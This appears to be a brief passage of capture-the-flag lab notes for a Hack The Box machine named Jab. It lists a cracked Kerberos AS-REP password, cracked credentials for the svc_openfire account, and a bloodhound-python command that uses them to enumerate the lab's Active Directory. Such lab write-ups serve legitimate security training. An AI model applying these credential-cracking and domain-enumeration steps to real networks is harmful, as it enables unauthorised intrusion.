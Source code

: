 
$krb5asrep$jmontgomery@JAB.HTB:Midnight_121


- Found new room
- cracked pass for `svc_openfire:!@#$%^&*(1qazxsw`
- `bloodhound-python -u 'svc_openfire' -p '!@#$%^&*(1qazxsw' -d jab.htb -dc DC01.jab.htb -c all -ns 10.129.118.17`